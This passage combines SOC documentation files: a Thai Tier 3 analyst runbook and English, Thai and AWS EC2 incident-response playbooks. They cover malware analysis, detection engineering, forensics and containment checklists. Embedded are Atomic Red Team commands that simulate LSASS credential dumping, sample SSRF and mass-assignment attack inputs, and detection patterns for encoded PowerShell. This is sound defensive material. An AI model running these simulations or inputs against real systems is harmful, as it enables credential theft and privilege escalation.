| FLOSS | ดึง string ขั้นสูง (deobfuscation) |
| ssdeep / imphash | Fuzzy hashing, เทียบความคล้าย |
| Detect It Easy (DIE) | ระบุ packer/compiler |
| Capa | ระบุ capability (mapped MITRE) |
| Ghidra / IDA | Disassembly และ decompilation |

### เครื่องมือ Dynamic Analysis

| เครื่องมือ | ใช้ทำอะไร |
|:---|:---|
| Any.Run | Interactive sandbox |
| Hybrid Analysis | Automated sandbox |
| Process Monitor | Monitor Windows API |
| Wireshark | จับ packet ระหว่าง execute |
| Regshot | เปรียบเทียบ registry |
| Volatility | Memory forensics |

---

## Detection Engineering

### Sigma Rule Development Workflow

```mermaid
graph LR
    TTP["🎯 ระบุ TTP"] --> Research["📚 Research"]
    Research --> Write["✍️ เขียน Sigma Rule"]
    Write --> Test["🧪 ทดสอบใน Lab"]
    Test --> Tune["🔧 Tune FP Rate"]
    Tune --> Deploy["🚀 Deploy ไป SIEM"]
    Deploy --> Monitor["📊 Monitor ประสิทธิภาพ"]
    Monitor --> Refine["🔄 ปรับปรุง"]
    Refine --> TTP
```

### Sigma Rule Template

```yaml
title: [ชื่อที่อธิบาย]
id: [UUID]
status: experimental
description: >
    ตรวจจับ [สิ่งที่ตรวจ] ซึ่งบ่งชี้ [ภัยคุกคาม]
references:
    - https://attack.mitre.org/techniques/TXXXX/
author: [ชื่อ]
date: 2026/02/16
tags:
    - attack.execution
    - attack.tXXXX.XXX
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        ParentImage|endswith: '\explorer.exe'
        Image|endswith: '\powershell.exe'
        CommandLine|contains:
            - '-enc'
            - '-EncodedCommand'
    condition: selection
falsepositives:
    - Admin scripts ที่ถูกต้อง
level: high
```

### YARA Rule Template

```yara
rule Malware_Family_Variant : malware
{
    meta:
        author      = "[ชื่อ]"
        date        = "2026-02-16"
        description = "ตรวจจับ [malware family] variant"
        reference   = "[URL]"
        hash        = "[sample hash]"

    strings:
        $s1 = "suspicious_string_1" ascii wide
        $s2 = { 4D 5A 90 00 }  // PE header
        $s3 = /https?:\/\/[a-z0-9]+\.(tk|ml|ga)\// nocase

    condition:
        uint16(0) == 0x5A4D and
        filesize < 5MB and
        2 of ($s*)
}
```

---

## Forensic Investigation

### Memory Forensics (Volatility 3)

```bash
# แสดง process ทั้งหมด
python3 vol.py -f memory.dmp windows.pslist

# ตรวจ code injection
python3 vol.py -f memory.dmp windows.malfind

# Network connections ขณะเก็บ memory
python3 vol.py -f memory.dmp windows.netscan

# ประวัติ command
python3 vol.py -f memory.dmp windows.cmdline

# ตรวจ DLL injection
python3 vol.py -f memory.dmp windows.dlllist --pid [PID]

# ดึง registry hive
python3 vol.py -f memory.dmp windows.registry.hivelist
```

### Disk Forensics

```bash
# สร้าง timeline ด้วย KAPE
KAPE.exe --tsource C: --target !SANS_Triage --tdest E:\Evidence

# Super timeline ด้วย plaso
log2timeline.py timeline.plaso /path/to/image
psort.py -o l2tcsv timeline.plaso -w timeline.csv

# Parse Windows event logs
python3 hayabusa -d C:\Windows\System32\winevt\Logs -o results.csv
```

---

## Purple Team & Adversary Simulation

### Atomic Red Team Testing

```powershell
# ติดตั้ง
Install-Module -Name invoke-atomicredteam

# รัน test เฉพาะ technique
Invoke-AtomicTest T1053.005 -TestNumbers 1  # Scheduled Task
Invoke-AtomicTest T1059.001 -TestNumbers 1  # PowerShell
Invoke-AtomicTest T1003.001 -TestNumbers 1  # LSASS Dump

# รัน test ทั้งหมดสำหรับ tactic
Invoke-AtomicTest T1053 -ShowDetailsBrief
```

### Detection Validation Matrix

| Technique | วิธีทดสอบ | Detection ที่คาด | ผล |
|:---|:---|:---|:---|
| T1059.001 | Encoded PowerShell | Sigma rule `proc_powershell_encoded` | ✅/❌ |
| T1003.001 | Mimikatz/LSASS | EDR + SIEM alert | ✅/❌ |
| T1053.005 | Scheduled Task | Event 4698 rule | ✅/❌ |
| T1021.001 | RDP brute force | SIEM multi-fail rule | ✅/❌ |

---

## Threat Intelligence Production

### Template รายงาน TI

```markdown
## TI Report: [ชื่อ Campaign/ภัยคุกคาม]
วันที่: [YYYY-MM-DD]
TLP: [WHITE/GREEN/AMBER/RED]
ความมั่นใจ: [สูง/กลาง/ต่ำ]

### สรุปสำหรับผู้บริหาร
[2-3 ประโยคสำหรับ management]

### การวิเคราะห์เทคนิค
- Attack vector: [มาอย่างไร]
- Malware family: [ชื่อ, ความสามารถ]
- C2 infrastructure: [domains, IPs, protocols]
- MITRE ATT&CK chain: [technique IDs]

### IOCs
| ประเภท | ค่า | บริบท |
|:---|:---|:---|
| [IP/Hash/Domain] | [value] | [ใช้ทำอะไร] |

### ข้อเสนอแนะ
1. [Action สำหรับ block]
2. [Detection rule ที่ต้องสร้าง]
3. [Hunt query ที่ต้องรัน]

### อ้างอิง
- [Source URLs]
```

---

## ตัวชี้วัดประสิทธิภาพ T3

| Metric | เป้าหมาย | หมายเหตุ |
|:---|:---:|:---|
| Threat hunts/เดือน | ≥ 4 | อย่างน้อย 1/สัปดาห์ |
| Detection rules ใหม่/เดือน | ≥ 8 | Sigma + YARA รวม |
| Detection rule FP rate | < 5% | หลัง 30 วัน tuning |
| Malware samples วิเคราะห์/เดือน | ≥ 10 | Triage + deep analysis |
| TI reports/เดือน | ≥ 2 | Intelligence ที่ใช้งานได้ |
| Purple team exercises/ไตรมาส | ≥ 2 | ตรวจสอบ detection gaps |
| Knowledge sharing/เดือน | ≥ 2 | สอน T1/T2 |
| เวลา detect TTP ใหม่ | ≤ 48 ชม. | จาก TI alert → detection rule |

---

## รายชื่อติดต่อ

| บทบาท | ติดต่อเมื่อ |
|:---|:---|
| T2 Analyst | ช่วย case ซับซ้อน, คำแนะนำ |
| IR Lead | ประสานงาน incident ใหญ่ |
| SOC Manager | กลยุทธ์, วางแผน resource |
| CISO | บรรยาย threat landscape, ตัดสินใจ risk |
| Red Team | Purple team exercises, adversary simulation |
| Vendor TAM | TI เฉพาะผลิตภัณฑ์, beta features |
| External TI | ISAC sharing, vendor intelligence feeds |
| Law Enforcement | Attribution, takedown coordination |

---

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](../Framework.th.md)
- [การสืบสวน Forensic](../Forensic_Investigation.th.md)
- [การเก็บหลักฐาน](../Evidence_Collection.th.md)
- [Threat Hunting Playbook](../Threat_Hunting_Playbook.th.md)
- [Tier 1 Runbook](Tier1_Runbook.th.md)
- [Tier 2 Runbook](Tier2_Runbook.th.md)
- [Playbook ทั้งหมด (PB-01 ถึง PB-50)](../Playbooks/Phishing.th.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.th.md)


---

## File: 05_Incident_Response/Playbooks/API_Abuse.en.md

# Playbook: API Abuse Response

**ID**: PB-30
**Severity**: High | **Category**: Application Security
**MITRE ATT&CK**: [T1106](https://attack.mitre.org/techniques/T1106/) (Native API), [T1530](https://attack.mitre.org/techniques/T1530/) (Data from Cloud Storage)
**Trigger**: API Gateway alert (rate limit), WAF (API attack signature), SIEM correlation, Customer report

### API Attack Chain

```mermaid
graph LR
    Recon["🔍 API Recon"] --> Auth["🔓 Auth Bypass"]
    Auth --> Enum["📋 Data Enum"]
    Enum --> Exfil["📤 Mass Exfil"]
    Exfil --> Abuse["💥 Service Abuse"]
    style Recon fill:#3498db,color:#fff
    style Auth fill:#f39c12,color:#fff
    style Exfil fill:#e74c3c,color:#fff
    style Abuse fill:#c0392b,color:#fff
```

### Rate Limiting Response

```mermaid
sequenceDiagram
    participant Client
    participant Gateway as API Gateway
    participant SOC
    participant Dev
    Client->>Gateway: 📡 1000 req/min
    Gateway->>Gateway: Rate limit triggered
    Gateway-->>Client: 429 Too Many Requests
    Gateway->>SOC: 🚨 Alert: API abuse
    SOC->>Gateway: Block client IP/key
    SOC->>Dev: Review API key scope
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Abnormal API Activity"] --> Type{"⚙️ Abuse Type?"}
    Type -->|Rate Abuse| Rate["📊 Excessive Request Volume"]
    Type -->|Auth Bypass| Auth["🔓 Unauthorized Endpoint"]
    Type -->|Data Scraping| Scrape["📥 Bulk Data Extraction"]
    Type -->|Injection| Inject["💉 API Injection Attack"]
    Type -->|Credential Stuffing| Cred["🔑 Login Endpoint Abuse"]
    Rate --> Source["🔍 Identify Source"]
    Auth --> Source
    Scrape --> Source
    Inject --> Source
    Cred --> Source
    Source --> Legit{"Legitimate Consumer?"}
    Legit -->|Yes, Partner Ramp-Up| Tune["✅ Tune Rate Limits"]
    Legit -->|No, Malicious| Contain["🔒 Block + Revoke"]
    Legit -->|Unknown| Investigate["🔍 Deep Investigation"]
```

---

## 1. Analysis

### 1.1 API Abuse Classification

| Type | Pattern | OWASP API Top 10 | Severity |
|:---|:---|:---|:---|
| **BOLA / IDOR** | Accessing other users' data via ID manipulation | API1:2023 | 🔴 Critical |
| **Broken Authentication** | Invalid/stolen tokens accessing endpoints | API2:2023 | 🔴 Critical |
| **Excessive Data Exposure** | API returning more data than needed | API3:2023 | 🟠 High |
| **Rate Abuse / DoS** | Flooding endpoints to degrade service | API4:2023 | 🟠 High |
| **BFLA** | Accessing admin functions without authorization | API5:2023 | 🔴 Critical |
| **Mass Assignment** | Modifying restricted fields in requests | API6:2023 | 🟠 High |
| **Data Scraping** | Systematic extraction of all records | — | 🟠 High |
| **Credential Stuffing** | Bulk login attempts via API | API2:2023 | 🟠 High |
| **Injection** | SQLi, NoSQLi, command injection through API | API8:2023 | 🔴 Critical |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Source identification (API key, OAuth token, IP, user) | API gateway logs | ☐ |
| Request pattern analysis (volume, endpoints, parameters) | API logs / SIEM | ☐ |
| Valid credentials or exploiting auth weakness? | Auth logs, token analysis | ☐ |
| What data was accessed/returned? | API response logs | ☐ |
| Is the API consumer known (partner, internal, unknown)? | API key registry | ☐ |
| Was data exfiltrated (volume, sensitivity)? | DLP / API metrics | ☐ |
| Is the vulnerability known or new? | Security testing history | ☐ |

### 1.3 Impact Assessment

| Question | Answer | Done |
|:---|:---|:---:|
| How much data was accessed? | | ☐ |
| Was PII or sensitive data retrieved? | | ☐ |
| Was data modified or deleted? | | ☐ |
| Were other API consumers affected (degradation)? | | ☐ |
| Is the vulnerable endpoint still exposed? | | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Rate limit** aggressively on offending API key/IP | API Gateway | ☐ |
| 2 | **Revoke** compromised API key or OAuth token | API management | ☐ |
| 3 | **Block source IP(s)** | WAF / Firewall | ☐ |
| 4 | **Disable vulnerable endpoint** if actively exploited | DevOps | ☐ |
| 5 | **GeoIP block** if abuse from non-business region | API Gateway / WAF | ☐ |

### 2.2 If Authentication Bypass

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Rotate all API keys associated with the compromised service | ☐ |
| 2 | Invalidate all OAuth tokens for the endpoint | ☐ |
| 3 | Disable the endpoint until auth is fixed | ☐ |
| 4 | Review and fix authorization logic (BOLA, BFLA) | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Credential rotation**: Issue new API keys to legitimate consumers | ☐ |
| 2 | **Fix vulnerability**: Patch auth bypass, injection, or data exposure | ☐ |
| 3 | **Implement controls**: Input validation, pagination, field filtering | ☐ |
| 4 | **WAF rules**: Create custom rules targeting the specific attack pattern | ☐ |
| 5 | **Rate limiting**: Enforce per-key and per-IP rate limits | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Re-enable endpoint after vulnerability patched and tested | ☐ |
| 2 | Notify legitimate API consumers of key rotation | ☐ |
| 3 | Run API security scan (OWASP ZAP, Burp) | ☐ |
| 4 | Implement API behavioral analytics / anomaly detection | ☐ |
| 5 | Deploy API security gateway with schema validation | ☐ |
| 6 | Monitor API metrics for 72 hours post-fix | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Attacker IP(s) | | API Gateway / WAF |
| Compromised API Key / Token | | API management |
| Attack pattern (endpoint + params) | | API logs |
| User-Agent string | | API logs |
| Data volume extracted | | API metrics |
| Vulnerable endpoint | | Security testing |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| PII/customer data exfiltrated | Legal + DPO (PDPA 72h) |
| Auth bypass on production API | CISO + DevOps lead |
| Revenue-generating API degraded/down | Business unit + DevOps |
| Injection with backend access | [PB-10 Web Attack](Web_Attack.en.md) + CISO |
| Partner API key compromised | Partner rel. manager + Security |
| Bulk credential stuffing via API | [PB-04 Brute Force](Brute_Force.en.md) |

---

### API Security Architecture

```mermaid
graph LR
    Client["📱 Client"] --> Auth["🔑 OAuth 2.0"]
    Auth --> Gateway["🚪 API Gateway"]
    Gateway --> RateLimit["⏱️ Rate Limit"]
    RateLimit --> WAF["🛡️ WAF"]
    WAF --> App["📦 API Server"]
    App --> DLP["🔍 Response Filter"]
    style Auth fill:#3498db,color:#fff
    style Gateway fill:#27ae60,color:#fff
    style WAF fill:#f39c12,color:#fff
```

### OWASP API Risk Classification

```mermaid
graph TD
    Risk["⚠️ API Risk"] --> Critical{"🔴 Critical"}
    Risk --> High{"🟠 High"}
    Critical --> BOLA["BOLA/IDOR"]
    Critical --> BrokenAuth["Broken Auth"]
    Critical --> BFLA["BFLA"]
    High --> DataExp["Data Exposure"]
    High --> NoLimit["No Rate Limit"]
    High --> MassAssign["Mass Assignment"]
    style Critical fill:#e74c3c,color:#fff
    style High fill:#f39c12,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| API Authentication Bypass | [web_api_abuse_auth_bypass.yml](../../08_Detection_Engineering/sigma_rules/web_api_abuse_auth_bypass.yml) |
| High Web Request Rate | [web_high_rate_limit.yml](../../08_Detection_Engineering/sigma_rules/web_high_rate_limit.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)
- [PB-10 Web Attack](Web_Attack.en.md)
- [Shift Handover Log](../../11_Reporting_Templates/shift_handover.en.md)

## References

- [MITRE ATT&CK T1106 — Native API](https://attack.mitre.org/techniques/T1106/)
- [OWASP API Security Top 10 (2023)](https://owasp.org/API-Security/editions/2023/en/0x11-t10/)
- [NIST SP 800-95 — Guide to Secure Web Services](https://csrc.nist.gov/publications/detail/sp/800-95/final)


---

## File: 05_Incident_Response/Playbooks/API_Abuse.th.md

# Playbook: API Abuse / การใช้ API ในทางที่ผิด

**ID**: PB-30
**ระดับความรุนแรง**: สูง | **หมวดหมู่**: ความปลอดภัยแอปพลิเคชัน
**MITRE ATT&CK**: [T1106](https://attack.mitre.org/techniques/T1106/) (Native API), [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing Application)
**ทริกเกอร์**: API Gateway alert (rate limit), WAF, SIEM (authentication anomaly), ผู้ใช้รายงาน


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน API rate limiting และ throttling
- [ ] ใช้ API gateway security policies
- [ ] ทบทวน API key rotation policies
- [ ] ตรวจ OWASP API Top 10 risks
- [ ] ใช้ API security testing ใน CI/CD
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง API Attack Chain

```mermaid
graph LR
    Recon["🔍 API Recon"] --> Auth["🔓 Auth Bypass"]
    Auth --> Enum["📋 Data Enum"]
    Enum --> Exfil["📤 Mass Exfil"]
    Exfil --> Abuse["💰 Abuse Data"]
    style Recon fill:#3498db,color:#fff
    style Auth fill:#e74c3c,color:#fff
    style Exfil fill:#c0392b,color:#fff
```

### ผัง Rate Limiting Response

```mermaid
sequenceDiagram
    participant Client
    participant Gateway as API Gateway
    participant SOC
    Client->>Gateway: 1000 req/min
    Gateway->>Gateway: ⚠️ Rate limit exceeded
    Gateway-->>Client: 429 Too Many Requests
    Gateway->>SOC: 🚨 Alert: abuse pattern
    SOC->>Gateway: Block API key
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 API Anomaly"] --> Type{"⚙️ ประเภท?"}
    Type -->|BOLA/BFLA| Auth["🔓 Authorization Flaw"]
    Type -->|Rate Abuse| Rate["📈 Volume สูงผิดปกติ"]
    Type -->|Credential Stuffing| Cred["🔑 API Key Compromise"]
    Type -->|Data Scraping| Scrape["📊 Data Harvesting"]
    Auth --> Data{"📁 ข้อมูลรั่วไหล?"}
    Rate --> Block["🔒 Rate Limit + Block"]
    Cred --> Rotate["🔄 หมุนเวียน API Key"]
    Scrape --> Block
    Data -->|ใช่| Critical["🔴 P1 — แจ้ง Legal"]
    Data -->|ไม่| Fix["🟠 แก้ไข Logic"]
```

---

## 1. การวิเคราะห์

### 1.1 ประเภท API Abuse (OWASP API Top 10)

| ประเภท | ลักษณะ | ตัวอย่าง | ความรุนแรง |
|:---|:---|:---|:---|
| **BOLA** (Broken Object Level Auth) | เข้าถึงข้อมูล user อื่นผ่าน IDOR | `GET /api/users/1234` → `GET /api/users/5678` | 🔴 วิกฤต |
| **Broken Authentication** | API key/token ที่ถูกขโมย | Hardcoded key ใน GitHub | 🔴 วิกฤต |
| **Excessive Data Exposure** | API คืนข้อมูลเกินจำเป็น | Return full user object incl. SSN | 🟠 สูง |
| **Lack of Rate Limiting** | Request volume สูงผิดปกติ | >10,000 req/min จาก IP เดียว | 🟠 สูง |
| **BFLA** (Function Level Auth) | เรียก admin endpoints จาก user role | `POST /api/admin/delete-user` | 🔴 วิกฤต |
| **Mass Assignment** | ส่ง fields ที่ไม่ควรแก้ได้ | `{"role": "admin"}` | 🟠 สูง |
| **SSRF via API** | ใช้ API เรียก internal resources | `{"url": "http://169.254.169.254"}` | 🔴 วิกฤต |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| API endpoint ที่ถูกโจมตี | API gateway logs | ☐ |
| API key / OAuth token ที่ใช้ | API gateway | ☐ |
| Request volume / pattern (burst? sustained?) | API analytics | ☐ |
| ข้อมูลที่ถูกเข้าถึง / ดาวน์โหลด | Response logs | ☐ |
| Source IP / User Agent | API logs | ☐ |
| API key leaked publicly? | GitHub search, TI | ☐ |
| ข้อมูล PII ถูกเข้าถึงหรือไม่? | DLP / data classification | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **หมุนเวียน API key / token** ที่ถูกบุกรุก | API gateway | ☐ |
| 2 | **Block** source IP ที่ WAF/API gateway | WAF | ☐ |
| 3 | **Rate limit** เพิ่มเติม (per-key, per-IP) | API gateway | ☐ |
| 4 | **บล็อก endpoint** หากรั่วไหลข้อมูล PII | API gateway | ☐ |
| 5 | **Revoke** leaked API keys ทั้งหมด | API management | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | แก้ authorization logic (BOLA/BFLA) | ☐ |
| 2 | ลบ API keys ที่ leaked / hardcoded ใน source code | ☐ |
| 3 | ตรวจ response schema — ลบ fields ที่เกินจำเป็น | ☐ |
| 4 | แก้ mass assignment — whitelist allowed fields | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ใช้ **API gateway** พร้อม rate limiting + throttling | ☐ |
| 2 | เปิด **behavioral analytics** สำหรับ API | ☐ |
| 3 | ใช้ **OAuth 2.0 + short-lived tokens** แทน static API keys | ☐ |
| 4 | สั่ง **API security audit / pen test** | ☐ |
| 5 | เปิด **API key rotation policy** (90 วัน) | ☐ |
| 6 | ใช้ **secrets scanning** ใน CI/CD (prevent key leaks) | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| PII ถูกเข้าถึงหรือดาวน์โหลด | Legal + DPO (PDPA 72 ชม.) |
| Admin API ถูกเรียกจาก unauthorized user | CISO |
| DDoS ผ่าน API (volume-based) | [PB-12 DDoS](DDoS_Attack.th.md) |
| SSRF เข้าถึง internal/cloud metadata | Major Incident |
| API key leaked สาธารณะ (GitHub, Pastebin) | SOC Lead ทันที |

---

### ผัง API Security Architecture

```mermaid
graph LR
    Client["📱 Client"] --> Auth["🔑 OAuth 2.0"]
    Auth --> Gateway["🚪 API Gateway"]
    Gateway --> RateLimit["⏱️ Rate Limit"]
    RateLimit --> WAF["🛡️ WAF"]
    WAF --> App["📦 API Server"]
    App --> DLP["🔍 Response Filter"]
    style Auth fill:#3498db,color:#fff
    style Gateway fill:#27ae60,color:#fff
    style WAF fill:#f39c12,color:#fff
```

### ผัง OWASP API Risk Classification

```mermaid
graph TD
    Risk["⚠️ API Risk"] --> Critical{"🔴 Critical"}
    Risk --> High{"🟠 High"}
    Critical --> BOLA["BOLA/IDOR"]
    Critical --> BrokenAuth["Broken Auth"]
    Critical --> BFLA["BFLA"]
    High --> DataExp["Data Exposure"]
    High --> NoLimit["No Rate Limit"]
    High --> MassAssign["Mass Assignment"]
    style Critical fill:#e74c3c,color:#fff
    style High fill:#f39c12,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| API Authentication Bypass | [web_api_abuse_auth_bypass.yml](../../08_Detection_Engineering/sigma_rules/web_api_abuse_auth_bypass.yml) |
| High Web Request Rate | [web_high_rate_limit.yml](../../08_Detection_Engineering/sigma_rules/web_high_rate_limit.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-10 Web Attack](Web_Attack.th.md)

## API Threat Landscape

| Attack Type | Method | Detection |
|:---|:---|:---|
| Credential stuffing | Automated login attempts | Rate analysis |
| BOLA/IDOR | Object ID manipulation | Auth boundary check |
| Mass data scraping | Systematic enumeration | Volume anomaly |
| Injection | SQLi/XSS via API params | WAF + input validation |
| Token theft | JKT/OAuth hijack | Token anomaly |

### Rate Limiting Strategy

| Endpoint Type | Normal Rate | Alert Threshold | Block Threshold |
|:---|:---|:---|:---|
| Authentication | 5/min | 10/min | 20/min |
| Data query | 60/min | 120/min | 200/min |
| File upload | 10/min | 20/min | 50/min |
| Admin actions | 30/min | 60/min | 100/min |

### API Security Checklist
- [ ] Authentication on all endpoints
- [ ] Rate limiting configured
- [ ] Input validation active
- [ ] Logging all API calls
- [ ] Token expiration enforced
- [ ] CORS properly configured

### API Incident Severity Matrix

| Factor | Low | High |
|:---|:---|:---|
| Data accessed | Public | PII/sensitive |
| Volume | < 100 requests | 10K+ requests |
| Auth required | Yes (legit key) | Bypassed auth |

### API Key Rotation

| When | Action |
|:---|:---|
| Compromised key | Rotate immediately |
| Suspicious usage | Rotate + investigate |
| Regular rotation | Every 90 days |

## อ้างอิง

- [OWASP API Security Top 10](https://owasp.org/API-Security/)
- [MITRE ATT&CK T1106 — Native API](https://attack.mitre.org/techniques/T1106/)


---

## File: 05_Incident_Response/Playbooks/AWS_EC2_Compromise.en.md

# Playbook: AWS EC2 Instance Compromise

**ID**: PB-22
**Severity**: Critical | **Category**: Cloud Security (AWS)
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing Application), [T1496](https://attack.mitre.org/techniques/T1496/) (Resource Hijacking), [T1078.004](https://attack.mitre.org/techniques/T1078/004/) (Cloud Accounts)
**TLP**: AMBER
**Trigger**: GuardDuty alert, CloudTrail anomaly, EDR detection, VPC Flow Logs anomaly

### EC2 Forensics Flow

```mermaid
graph LR
    Alert["🚨 Alert"] --> Snapshot["📸 EBS Snapshot"]
    Snapshot --> Forensic["🔬 Forensic Instance"]
    Forensic --> Analyze["🔍 Analyze"]
    Analyze --> IOC["🎯 Extract IOCs"]
    IOC --> Hunt["🎯 Org-wide Hunt"]
    style Alert fill:#e74c3c,color:#fff
    style Snapshot fill:#3498db,color:#fff
    style IOC fill:#27ae60,color:#fff
```

### IMDSv2 Protection

```mermaid
sequenceDiagram
    participant App
    participant IMDS as IMDSv2
    participant SOC
    App->>IMDS: PUT /token (get session token)
    IMDS-->>App: Token (TTL limited)
    App->>IMDS: GET /credentials (with token)
    IMDS-->>App: IAM role credentials
    Note over SOC: ❌ SSRF cannot reach IMDSv2
    Note over SOC: (requires PUT + token)
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 EC2 Alert"] --> Source{"🔍 Detection Source?"}
    Source -->|GuardDuty: Crypto| Mining["⛏️ Cryptomining"]
    Source -->|GuardDuty: C2/Backdoor| C2["🔴 Backdoor/C2"]
    Source -->|CPU 100% flatline| CPU["📊 Resource Anomaly"]
    Source -->|Outbound to bad IP| Network["🌐 Network IoC"]
    Mining --> Env{"🏭 Environment?"}
    C2 --> Critical["🔴 Critical — Immediate"]
    CPU --> Process["🔍 Identify Process"]
    Network --> Process
    Env -->|Production| Snapshot["📸 Snapshot → Isolate"]
    Env -->|Dev/Test| StopInst["⏹️ Stop Instance"]
    Process --> Malicious{"Malicious?"}
    Malicious -->|Yes| Snapshot
    Critical --> Snapshot
    Snapshot --> Forensics["🔬 Forensics"]
```

---

## 1. Analysis

### 1.1 GuardDuty Finding Types

| Finding Type | Severity | Description |
|:---|:---|:---|
| `CryptoCurrency:EC2/BitcoinTool.B` | High | Instance communicating with crypto mining pool |
| `Backdoor:EC2/C&CActivity.B` | High | Instance communicating with known C2 |
| `UnauthorizedAccess:EC2/SSHBruteForce` | Medium | SSH brute force detected |
| `Recon:EC2/PortProbeUnprotectedPort` | Low | Port scan from external source |
| `Trojan:EC2/BlackholeTraffic` | High | Outbound traffic to black hole IP |
| `UnauthorizedAccess:EC2/TorIPCaller` | Medium | API call from Tor exit node |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Instance ID, Region, VPC, Owner tag | AWS Console / CLI | ☐ |
| Instance role (production/dev/test?) | Tags, ASG | ☐ |
| Launch time — when was it created? | EC2 console | ☐ |
| IAM role attached to instance | Instance metadata | ☐ |
| Security Group rules (what's exposed?) | EC2 → SG | ☐ |
| Public IP / EIP? Internet-facing? | EC2 console | ☐ |
| VPC Flow Logs — unusual outbound | CloudWatch / Athena | ☐ |
| CloudTrail — who launched / modified? | CloudTrail | ☐ |
| SSH key used for access | EC2 key pair, SSM sessions | ☐ |
| Running processes (if accessible) | SSM Run Command | ☐ |

### 1.3 Entry Vector Assessment

| Vector | How to Check | Done |
|:---|:---|:---:|
| Exposed SSH (22) / RDP (3389) | Security Group review | ☐ |
| Vulnerable web application | Access logs, CVE check | ☐ |
| Compromised IAM credentials | CloudTrail `RunInstances` | ☐ |
| Compromised SSM / Session Manager | SSM session history | ☐ |
| Docker / container escape | Container logs | ☐ |
| Supply chain (backdoored AMI) | AMI source verification | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | AWS Command / Console | Done |
|:---:|:---|:---|:---:|
| 1 | **Snapshot EBS** for forensics | `aws ec2 create-snapshot` | ☐ |
| 2 | **Isolate** — attach restrictive SG (deny all, allow forensics IP only) | EC2 → SG | ☐ |
| 3 | **Deregister** from ALB/NLB and ASG | EC2 / ELB | ☐ |
| 4 | **Disable IAM role** credentials (revoke session) | IAM | ☐ |
| 5 | **Tag** instance as `Status: Compromised` | EC2 tags | ☐ |
| 6 | **Capture memory** if forensics required | SSM + memory dump tool | ☐ |

### 2.2 If Cryptomining

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Block mining pool domains/IPs at VPC DNS / firewall | ☐ |
| 2 | Block mining ports (3333, 4444, 5555, 8333) | ☐ |
| 3 | Check for other instances by same IAM user | ☐ |
| 4 | Check billing for unexpected GPU/compute instances | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Terminate** compromised instance (if stateless) | ☐ |
| 2 | **Rebuild** from clean, patched AMI (Golden Image) | ☐ |
| 3 | **Rotate** IAM credentials (access keys, role policies) | ☐ |
| 4 | **Rotate** SSH key pairs used on the instance | ☐ |
| 5 | **Patch** the entry vector (close SG rules, patch app) | ☐ |
| 6 | **Review** all instances launched by same IAM identity | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Launch clean replacement instance from Golden AMI | ☐ |
| 2 | Register in ALB/ASG | ☐ |
| 3 | Validate application health | ☐ |
| 4 | Restrict SSH/RDP — use SSM Session Manager instead | ☐ |
| 5 | Enable GuardDuty if not already active | ☐ |
| 6 | Implement IMDSv2 (disable IMDSv1) to prevent SSRF credential theft | ☐ |
| 7 | Monitor instance for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Instance ID | | EC2 |
| Malicious process / binary hash | | SSM / Forensics |
| C2 / Mining pool IP/domain | | VPC Flow Logs |
| Attacker IAM identity | | CloudTrail |
| Source IP of initial compromise | | CloudTrail / VPC Flow |
| Modified files | | EBS forensics |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Production instance compromised | SOC Lead + Cloud team |
| Multiple instances compromised | Major Incident |
| IAM credentials stolen via SSRF | CISO + IAM team |
| Data exfiltration from instance | Legal + DPO (PDPA 72h) |
| Billing spike > $1K unauthorized | Finance + Cloud team |
| Lateral movement to other instances | [PB-09 Lateral Movement](Lateral_Movement.en.md) |

---

## Root Cause Analysis (VERIS)

| Field | Value |
|:---|:---|
| **Actor** | External |
| **Action** | Malware / Hacking |
| **Asset** | EC2 Instance |
| **Attribute** | Integrity / Availability |

---

### EC2 Security Hardening

```mermaid
graph TD
    EC2["🖥️ EC2"] --> SG["🔒 Security Group: restrict ports"]
    EC2 --> IMDS["🔑 IMDSv2 only"]
    EC2 --> SSM["📡 SSM: no SSH exposure"]
    EC2 --> CW["📊 CloudWatch agent"]
